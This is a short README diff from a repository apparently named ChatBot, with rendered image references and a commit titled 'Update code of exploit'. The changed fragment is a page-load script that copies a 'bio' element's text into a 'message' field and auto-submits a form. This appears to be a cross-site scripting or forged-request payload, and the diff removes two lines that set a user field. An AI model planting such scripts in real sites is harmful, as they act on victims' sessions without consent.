

Before and after one commit to Bun2Desy/ChatBot, a Markdown page: README.md, the part around the change. GitHub-like rendering; blank space fills up the shorter version.

Commit message:
Update code of exploit

```diff
--- a/README.md
+++ b/README.md
@@ -29,8 +29,6 @@
 window.onload = function() {
 var a = document.getElementById("message");
 a.value = document.getElementById("bio").textContent;
-var b = document.getElementById("user");
-b.value = "qwe";
 document.forms[1].submit();
 };
 </script>
```
